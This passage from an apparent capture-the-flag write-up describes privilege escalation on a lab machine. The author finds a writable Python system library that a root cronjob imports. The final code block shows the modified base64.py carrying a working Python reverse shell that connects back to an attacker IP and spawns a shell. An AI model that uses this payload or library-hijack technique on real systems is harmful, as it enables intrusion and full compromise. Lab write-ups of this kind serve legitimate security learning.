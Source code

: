 ```text
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun May 28 23:50:19 2023 from 10.8.124.134
valley@valley:~$ 
```

# 10 -  Enumerating (again)

Enumerating again did not lead to interesting results, at first. However, after countless unsuccessful attempts, an enumeration outputted something interesting:

```text
valley@valley:~$ find / -writable -type d 2>/dev/null
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service
...
/usr/lib/python3.8
...
```

By using the user "valley", I could possibly change the PyPI packages stored on the target machine!

Inspecting the folder left no doubt: I can execute a supply chain attack by modifying the base64 package used in the cronjob's script!
```text
valley@valley:~$ ls -la /usr/lib/python3.8
total 4908
drwxrwxr-x  30 root valleyAdmin  20480 Mar 20 07:48 .
drwxr-xr-x 112 root root          4096 Mar 20 14:34 ..
...
-rw-r--r--   1 root root         20094 Mar 13 03:26 asyncore.py
-rwxrwxr-x   1 root valleyAdmin  20382 Mar 13 03:26 base64.py
...
```

# 11 - The Cronjob - Part Two

With the help of revshells.com, I modified base64.py to include:

```python
# Modified 22-May-2007 by Guido van Rossum to use bytes everywhere

import re
import struct
import binascii

import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.124.134",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

